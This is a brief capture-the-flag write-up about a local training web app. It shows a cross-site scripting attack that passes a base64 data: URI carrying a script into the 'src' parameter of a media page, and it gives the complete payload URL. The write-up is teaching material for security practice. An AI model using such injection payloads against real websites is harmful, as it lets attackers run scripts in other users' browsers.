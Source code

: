 On the NSA logo there is an href tag thats redirect to : http://localhost:8080/index.php?page=media&src=nsa

We gonna modify the src param to execute JS code
The goal here is to exec an alert(1) in the page, to do so we first need the script in base64 :
=> <script>alert(1);</script>
=> to base64 = PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

Now let's create our payload : data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

Then let's give our payload to the src param : http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

We have our flag !